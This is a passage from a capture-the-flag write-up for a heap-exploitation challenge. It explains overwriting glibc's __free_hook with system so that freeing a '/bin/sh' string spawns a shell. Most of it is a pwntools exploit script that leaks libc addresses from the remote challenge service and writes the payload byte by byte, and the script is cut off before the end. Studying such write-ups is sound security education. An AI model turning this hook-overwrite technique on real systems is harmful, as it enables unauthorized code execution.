 ```
  [rdx] == NULL || rdx == NULL

```
I got a bit concerned at this point and started looking for ways to pivot to a short ROP chain from my free hook overwrite. That is, in fact, apparently something that you can do (See this link for more: https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/), but as I was reading it, I realized that the call gadget was working was because you can control the rdi gadget when you free a string. The string is passed as free's first argument, and since I control it, I can just set it to "/bin/sh", set the free hook to the address of system, and achieve a shell! 

## The Exploit Itself

The full exploit in Python is shown below.
```
from pwn import *

#For local debugging
#target = process('./string_editor_1', env={"LD_PRELOAD":"./libc.so.6"})
#pid = gdb.attach(target, "\nb *main+394\nb *main+268\n set disassembly-flavor intel\ncontinue")

target = remote('chal.imaginaryctf.org', 42004)

libc = ELF('libc.so.6')

print(target.recvuntil(b'sponsors: '))
leak = target.recv(14)
system = int(leak, 16)
print(hex(system))
libc_base = system - libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
print(hex(free_hook))

#My failed onegadget experiment! I left it in for posterity.
onegadget1 = libc_base + 0xe6e73
onegadget2 = libc_base + 0xe6e76
onegadget3 = libc_base + 0xe6e79
print('onegadget 1 at', hex(onegadget1))
print('onegadget 2 at', hex(onegadget2))
print('onegadget 3 at', hex(onegadget3))

#
print(target.recvuntil(b'pallette)'))
target.sendline(b'0')
print(target.recvuntil(b'index?'))
target.sendline(b'a')

print(target.recvuntil(b'DEBUG: '))
leak = target.recv(14)

#Determining the index that I need to enter
overwrite_base = int(leak, 16)
offset = free_hook - overwrite_base
#Now divide the onegadget into 6 bytes:


payload = p64(system)
#Overwrite the rdi passed to free, one character at a time:
line = b'/bin/sh\x00'
for i in range(8):
	print(target.recvuntil(b'pallette)'))
	target.sendline(str(i).encode('ascii'))
	print(target.recvuntil(b'index?'))
	target.sendline(line[i].to_bytes(1, 'little'))
```